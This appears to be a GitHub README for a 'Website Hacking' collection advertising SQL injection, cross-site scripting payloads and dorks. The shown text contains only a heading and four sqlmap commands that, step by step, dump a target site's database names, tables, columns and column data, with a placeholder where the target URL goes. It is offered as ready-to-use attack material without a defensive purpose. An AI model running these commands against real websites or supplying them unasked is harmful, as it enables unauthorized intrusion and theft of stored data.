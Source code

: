 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)
# Default SQL Injection Commands

# sqlmap -u 'Website' --dbs

# sqlmap -u 'Website' -D name.db --tables

# sqlmap -u 'Website' -D name.db -T name.table --columns

# sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
